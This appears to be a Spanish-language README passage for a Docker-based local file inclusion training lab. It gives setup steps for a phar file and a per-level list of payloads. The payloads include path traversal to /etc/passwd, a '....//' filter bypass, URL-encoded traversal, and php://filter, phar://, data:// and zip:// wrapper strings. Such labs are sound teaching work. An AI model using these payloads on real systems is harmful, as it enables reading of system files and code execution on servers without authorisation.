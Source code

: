 # Crear example.phar (opcional, para Nivel 6)

Para que `phar://...` funcione, crea `example.phar`:

1. Entra al contenedor:

```bash
docker-compose exec web bash
```

2. Ejecuta el script (si `phar.readonly=1` usa la variante con `-d`):

```bash
php -d phar.readonly=0 nivel6/create_phar.php
```

3. Ajusta permisos si hace falta:

```bash
chown www-data:www-data /var/www/html/example.phar
chmod 644 /var/www/html/example.phar
```

---

# Ejemplos de payloads útiles (por nivel)

> Usa estos en el campo `language` en las páginas de cada nivel.

* **Nivel 1**

  * `?language=/etc/passwd`

* **Nivel 2**

  * `?language=../../../../../../etc/passwd`
  * `?language=../../../../etc/passwd` (ajusta cantidad)

* **Nivel 3**

  * `?language=../../../../../../etc/passwd` (incluye prefijo `lang_`, prueba variantes con y sin `/`)

* **Nivel 4** (bypass `str_replace('../','',...)`)

  * `?language=....//....//....//etc/passwd`
  * Repetir `....//` N veces según profundidad

* **Nivel 5** (URL-encoded)

  * `%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd`  (equiv. a `../../../../etc/passwd`)
  * `php%3A%2F%2Ffilter%2Fread%3Dconvert.base64-encode%2Fresource%3Denivel6%2Fwelcome`

* **Nivel 6** (wrappers)

  * `php://filter/read=convert.base64-encode/resource=nivel6/welcome`
  * `php://filter/read=convert.base64-encode/resource=welcome` (según include target)
  * `phar:///var/www/html/example.phar#welcome.php`
  * `data:text/plain;base64,PD9waHAgZWNobyAnSG9sYSc7ID8+`
  * `zip:///var/www/html/example.zip#welcome.php` (si creas zip)

---